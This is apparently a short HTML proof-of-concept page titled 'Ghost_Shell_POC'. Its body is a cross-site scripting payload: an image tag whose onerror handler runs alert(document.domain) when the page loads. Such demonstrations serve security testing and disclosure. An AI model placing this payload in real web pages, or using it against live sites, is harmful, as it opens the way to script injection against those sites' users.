 <html>
  <center>
  <head>
    <h1 style="color:red;">Ghost_Shell_POC</h1>   
  </head>
<body>
  <img src=g onerror=alert(document.domain)>
</body>
